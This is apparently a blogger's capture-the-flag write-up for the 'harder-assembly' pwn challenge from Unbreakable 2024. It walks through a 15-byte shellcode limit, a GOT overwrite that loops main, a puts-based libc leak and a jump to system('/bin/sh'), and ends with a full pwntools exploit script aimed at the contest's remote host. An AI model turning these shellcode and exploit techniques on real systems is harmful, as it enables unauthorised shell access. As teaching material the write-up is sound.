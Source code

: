 ```yaml
---
title: harder-assembly
date: 2024-04-07T14:23:28+03:00
description: Writeup for harder-assembly [Unbreakable 2024]
author: sunbather
tags:
- pwn
- asm
draft: false
---
```

___

## Challenge Description

I want the shell, but they want me to work for it, this time even harder :(

## Intuition

We receive a binary that essentially takes 15 bytes as input, checks if it contains the byte sequence ``0x0f05`` and then executes the input as shellcode. The sequence ``0x0f05`` corresponds to ``syscall``. Therefore, we can assume we have 15 bytes to get a shell, but we have to not use ``syscall`` as part of our shellcode. Somewhat cleaned-up main function below:

```c
void main(void)
{
  long lVar1;
  char *__buf;
  long in_FS_OFFSET;
  int i;
  char copy_buf [15];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  copy_buf[0] = '\0';
  copy_buf[1] = '\0';
  copy_buf[2] = '\0';
  copy_buf[3] = '\0';
  copy_buf[4] = '\0';
  copy_buf[5] = '\0';
  copy_buf[6] = '\0';
  copy_buf[7] = '\0';
  copy_buf[8] = '\0';
  copy_buf[9] = '\0';
  copy_buf[10] = '\0';
  copy_buf[11] = '\0';
  copy_buf[12] = '\0';
  copy_buf[13] = '\0';
  copy_buf[14] = '\0';
  syscall();
  __buf = (char *)mmap((void *)0x0,0xf,7,0x22,0,0);
  read(0,__buf,0xf);
  copy_buf._0_8_ = *(undefined8 *)__buf;
  copy_buf._8_4_ = *(undefined4 *)(__buf + 8);
  copy_buf._12_2_ = *(undefined2 *)(__buf + 0xc);
  copy_buf[14] = __buf[0xe];
  for (i = 0; i < 0xf; i = i + 1) {
    if ((copy_buf[i] == '\x0f') && (copy_buf[i + 1] == '\x05')) {
      puts("You are not allowed to do that.");
      exit(0);
    }
  }
  (*(code *)__buf)();
  munmap(__buf,0xf);
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Usually, when you're limited in your "moves" in pwn challenges, the first step you need to think about is how to remove the limit. Therefore, our initial idea was to somehow get more than 15 bytes of shellcode running. We cannot modify the amount we are allowed to input, because it is hardcoded in the .text data, which is not writeable... We notice a call to mprotect hidden in the assembly, that makes the GOT RWX, which gives us the great idea to hijack functions from GOT:

```
004012a0 6a 0a           PUSH       0xa
004012a2 58              POP        RAX
004012a3 68 00 40        PUSH       _GLOBAL_OFFSET_TABLE_                            = 00403e20
         40 00
004012a8 5f              POP        RDI
004012a9 68 00 10        PUSH       0x1000
         00 00
004012ae 5e              POP        RSI
004012af 6a 07           PUSH       0x7
004012b1 5a              POP        RDX
004012b2 0f 05           SYSCALL
```

We can see that the only functions called after our shellcode are *munmap* and *__stack_chk_fail*. We can't trigger the stack fail, as there is not buffer overflow, so we choose to overwrite *munmap* with the address for *main*. And ta-da, we have infinite[^inf] 15 bytes shellcodes to run by returning to main in a closed loop. We overwrite munmap like so:

```asm
mov edi, 0x00404038 ; move the GOT location for munmap in rdi
mov eax, 0x0040125b ; move main address in rax
mov [rdi], rax      ; write main address to where rdi points
nop                 ; prob not necessary just wanted to pad to 15
ret                 ; ret so we don't start executing random data
```

Notice the weird random use of the 4-bytes registers edi and eax. This is because some opcodes are smaller in width when using smaller registers. So it let me use them without going over the 15 bytes limit.

Now, we can easily leak libc by printing the puts GOT address with a jump to puts from PLT:

```asm
mov rax, 0x004010a0  ; load puts addr from PLT into rax
mov edi, 0x00404018  ; load puts addr from GOT into rdi
call rax             ; call plt_puts(got_puts)
ret
```

We get the libc version with [https://libc.blukat.me/](https://libc.blukat.me/) and get the offsets to ``system`` and ``/bin/sh``. Then we just set up rdi and call ``system`` directly. We use a trick for setting up rdi before calling ``system``, which is to load ``/bin/sh`` address into r12 one _main_ iteration before. We do this because ``mov rdi, ADDR`` is bigger in width than ``mov rdi, r12`` and r12 is not changed between _main_ calls. Last two shellcodes below:
```asm
trick:
	mov r12, BIN_SH_ADDR
	ret

call_system:
	mov rdi, r12
	mov rax, SYSTEM_ADDR
	jmp rax
```

Notice the jmp to rax instead of a call. Calling ``system`` instead of jumping to it will crash it because the stack is misaligned.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

context.update(arch='amd64', os='linux')

# libc6_2.35-0ubuntu3.5_amd64
system_offset = -0x300e0
bin_sh_offset = 0x157828

def inspect_payload(payload):
    print(payload, len(payload))


# overwrite munmap with main
payload = asm(
    """
    mov edi, 0x00404038
    mov eax, 0x0040125b
    mov [rdi], rax
    nop
    ret
    """
)

# leak puts addr
leak_payload = asm(
    """
    mov rax, 0x004010a0
    mov edi, 0x00404018
    call rax
    ret
    """
)


#target = process("./harder")
target = remote("34.89.210.219", 31120)

inspect_payload(payload)
target.send(payload)

inspect_payload(leak_payload)
target.send(leak_payload)
leak = u64(target.recvline().strip() + b"\x00\x00")
print(f"PUTS LEAK:{hex(leak)}")

test = asm(f"mov r12, {leak+bin_sh_offset}\nret\n")
inspect_payload(test)
target.send(test)

pwn_time = asm(f"mov rdi, r12\nmov rax, {leak+system_offset}\njmp rax\n")
inspect_payload(pwn_time)
target.send(pwn_time)

target.interactive()
```

[^inf]: Okay fine not _infinite_... We can call it as long as we don't overflow the stack segment allocated in virtual memory. Check out [this video from Laurie Wired](https://youtu.be/_6zAAhkU_Iw?si=HvPFU2ys61S6meYU) to see what I mean.

